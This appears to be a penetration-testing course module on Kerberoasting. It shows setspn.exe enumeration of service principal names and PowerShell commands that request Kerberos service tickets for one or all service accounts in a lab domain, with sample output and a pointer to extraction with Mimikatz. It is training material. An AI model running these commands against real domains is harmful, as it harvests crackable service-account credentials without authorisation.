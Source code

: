 ## Kerberoasting - Semi Manual Method

We will begin with the [setspn](https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2012-r2-and-2012/cc731241(v=ws.11)) binary to enumerate SPNs in the domain.

### Enumerating SPNs with setspn.exe
```cmd-session
C:\htb> setspn.exe -Q */*
```

We might see many different SPNs returned, we can ignore the computer accounts and focus on the user accounts. We can request TGS ticket for an account with PowerShell, and load it into memory. Then we can extract it using Mimikatz.

### Targeting a Single User
```powershell-session
PS C:\htb> Add-Type -AssemblyName System.IdentityModel
PS C:\htb> New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "MSSQLSvc/DEV-PRE-SQL.inlanefreight.local:1433"

Id                   : uuid-67a2100c-150f-477c-a28a-19f6cfed4e90-2
SecurityKeys         : {System.IdentityModel.Tokens.InMemorySymmetricSecurityKey}
ValidFrom            : 2/24/2022 11:36:22 PM
ValidTo              : 2/25/2022 8:55:25 AM
ServicePrincipalName : MSSQLSvc/DEV-PRE-SQL.inlanefreight.local:1433
SecurityKey          : System.IdentityModel.Tokens.InMemorySymmetricSecurityKey
```

Before moving on, let's break down the commands above to see what we are doing (which is essentially what is used by [Rubeus](https://posts.specterops.io/kerberoasting-revisited-d434351bd4d1) when using the default Kerberoasting method):

- The [Add-Type](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.utility/add-type?view=powershell-7.2) cmdlet is used to add a .NET framework class to our PowerShell session, which can then be instantiated like any .NET framework object
- The `-AssemblyName` parameter allows us to specify an assembly that contains types that we are interested in using
- [System.IdentityModel](https://docs.microsoft.com/en-us/dotnet/api/system.identitymodel?view=netframework-4.8) is a namespace that contains different classes for building security token services
- We'll then use the [New-Object](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.utility/new-object?view=powershell-7.2) cmdlet to create an instance of a .NET Framework object
- We'll use the [System.IdentityModel.Tokens](https://docs.microsoft.com/en-us/dotnet/api/system.identitymodel.tokens?view=netframework-4.8) namespace with the [KerberosRequestorSecurityToken](https://docs.microsoft.com/en-us/dotnet/api/system.identitymodel.tokens.kerberosrequestorsecuritytoken?view=netframework-4.8) class to create a security token and pass the SPN name to the class to request a Kerberos TGS ticket for the target account in our current logon session

We can also choose to retrieve all tickets using the same method, but this will also pull all computer accounts, so it is not optimal.

### Retrieving All Tickets Using setspn.exe
```powershell-session
PS C:\htb> setspn.exe -T INLANEFREIGHT.LOCAL -Q */* | Select-String '^CN' -Context 0,1 | % { New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList $_.Context.PostContext[0].Trim() }
```
